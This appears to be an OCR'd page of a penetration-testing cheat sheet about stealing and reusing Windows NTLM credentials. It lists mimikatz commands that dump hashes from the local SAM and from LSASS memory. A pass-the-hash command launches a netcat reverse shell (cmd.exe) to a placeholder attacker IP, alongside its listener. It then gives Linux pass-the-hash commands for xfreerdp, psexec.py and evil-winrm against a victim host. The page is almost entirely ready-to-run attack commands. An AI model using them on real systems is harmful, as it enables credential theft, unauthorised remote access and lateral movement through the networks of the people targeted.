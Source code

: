 # EXTRACT NTLM HASHES FROM LOCAL SAM

### privilege::debug

### token::elevate

### lsadump::sam -> LOCAL SAM DUMP

### sekurlsa::msv -> LSASS MEMORY DUMP

### token::revert

### sekurlsa::pth /user:USER.USER /domain:DOMAIN /ntlm:NTLM_HASH /run:"C\tools\nc64.exe -e cmd.exe ATTACK_IP PORT" 

### nc -lvp PORT

# PtH (Linux)

### xfreerdp /v:VICTIM_IP /u:DOMAIN\USER /pth NTLM_HASH

### psexec.py -hashes NTLM_HASH DOMAIN\USER@VICTIM_IP

### evil-winrm -i VICTIM_IP -u USER -H NTLM_HASH
